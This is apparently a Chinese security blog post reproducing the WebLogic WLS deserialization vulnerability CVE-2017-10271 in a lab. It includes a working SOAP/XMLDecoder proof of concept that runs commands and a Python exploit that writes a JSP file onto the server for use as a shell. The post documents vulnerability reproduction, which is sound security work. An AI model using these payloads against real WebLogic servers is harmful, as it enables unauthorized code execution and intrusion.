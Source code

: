 ```yaml
---
title: WebLogic WLS组件漏洞复现
date: 2019-08-6 15:20:00
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 漏洞
    - 复现
    - WebLogic WLS
    - 中间件
---
```

# 0x01 漏洞概述

漏洞编号：CVE-2017-10271

漏洞描述：
Weblogic的WLS Security组件对外提供webservice服务，
其中使用了XMLDecoder来解析用户传入的XML数据，
在解析的过程中出现反序列化漏洞，导致可执行任意命令。

受影响WebLogic版本：
* 10.3.6.0.0
* 12.1.3.0.0
* 12.2.1.1.0
* 12.2.1.2.0

***
# 0x02 环境搭建
## 复现环境
攻击机：Windows 10 1903 x64
靶   机：Windows server 2008 R2 x64

## 漏洞环境搭建
### 靶机配置
安装`jdk1.8.0_191`（路径不要带有空格）,并配置环境变量
安装 [WebLogic Server 10.3.6](https://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-main-097127.html)
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190806171919.png)
详细安装过程参考：[webLogic10.3.6安装、配置图解](https://wenku.baidu.com/view/938a7a56f5335a8102d220d0.html)

输入配置管理员用户名和口令时设置的用户名和口令之后，
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190806172423.png)

使用攻击机访问  `http://靶机ip:7001/wls-wsat/CoordinatorPortType`
如出现如下界面，则搭建成功
**（注意：要把靶机上的防火墙关闭）**
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190806172734.png)

# 0x03 漏洞利用

## POC
```
<soapenv:Envelope     xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
       <work:WorkContext    xmlns:work="http://bea.com/2004/06/soap/workarea/">
           <java      version="1.8" class="java.beans.XMLDecoder">
               <void     class="java.lang.ProcessBuilder">
                    <array    class="java.lang.String" length="3">
                        <void     index="0">
                           <string>calc</string>
                        </void>
                        <void     index="1">
                            <string></string>
                        </void>
                        <void     index="2">
                            <string> </string>
                        </void>
                    </array>
                <void     method="start"/></void>
           </java>
       </work:WorkContext>
   </soapenv:Header>
    <soapenv:Body/>
    </soapenv:Envelope>
```

攻击机访问 `http://靶机ip:7001/wls-wsat/CoordinatorPortType` 
使用Burp Suite抓包，发送到Repeater
使用post方法发送下方POC，并添加Content-Type:text/xml，把Cache-Control修改为no-cache
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190806173735.png)

返回状态码 500，进入靶机查看，弹出计算机，执行calc命令成功

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190806173856.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190806174012.png)

## EXP
```
#! -*- coding:utf-8 -*-
import requests
 
url = "http://192.168.159.138:7001/wls-wsat/CoordinatorPortType"
xml = '''
     <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
     <soapenv:Header>
     <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
     <java><java version="1.4.0" class="java.beans.XMLDecoder">
     <object class="java.io.PrintWriter"> 
     <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
     <void method="println"><string>
     <![CDATA[
 <% out.print("test"); %>
     ]]>
     </string>
     </void>
     <void method="close"/>
     </object></java></java>
     </work:WorkContext>
     </soapenv:Header>
    <soapenv:Body/>
 </soapenv:Envelope>
'''
r =requests.post(url,headers={'Content-Type':'text/xml','Cache-Control':'no-cache'},data=xml)
print r.status_code

print r.text
```
(记得修改python文件里面的ip地址)
直接运行 `python2 CVE-2017-10271.py` 写入一句话

访问shell
`http://靶机ip:7001/bea_wls_internal/test.jsp`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190806190652.png)

# 参考文章
[WebLogic WLS组件漏洞复现](https://www.freebuf.com/vuls/158247.html)
[Weblogic(CVE-2017-10271)漏洞复现](https://www.cnblogs.com/xyongsec/archive/2019/07/03/11125511.html)